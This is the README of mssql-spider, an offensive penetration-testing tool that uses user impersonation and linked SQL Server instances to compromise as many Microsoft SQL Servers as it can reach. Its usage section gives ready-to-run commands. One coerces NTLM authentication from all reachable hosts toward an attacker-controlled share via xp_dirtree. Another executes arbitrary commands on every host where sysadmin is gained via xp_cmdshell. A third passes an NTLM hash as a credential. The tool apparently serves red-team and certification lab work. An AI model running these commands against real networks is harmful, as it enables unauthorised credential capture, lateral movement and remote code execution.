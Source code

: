 # mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that exploits user impersonation and follows linked instances to discover and compromise as many Microsoft SQL Servers as it can reach.

Big thanks to the developers of fortra/impacket#1397, [SQLRecon](https://github.com/skahwah/SQLRecon) and [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) on which this project is based.

> **Warning:** Although this project was successfully tested in the lab and solves the OSEP Challenge Lab 2 automatically, it is still kinda work in progress.

# Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With [pip](https://github.com/pypa/pip).

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

# Usage

Impersonate users and follow linked instances recursively.

~~~ bash
mssql-spider -u jdoe -p passw0rd -w db01.corp.local
~~~

Coerce NTLM authentication from all reachable hosts trough `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-spider -u jdoe -H :b9f917853e3dbf6e6831ecce60725930 -w --xpdir \\attacker.corp.local\test ./mssql-servers.txt
~~~

Execute a command on all hosts where you can obtain sysadmin privileges trough `xp_cmdshell`.

~~~ bash
mssql-spider -k -n -w -x 'whoami /groups' db01.corp.local:50123 db02.corp.com:1433
~~~

Run `mssql-spider --help` for more details.

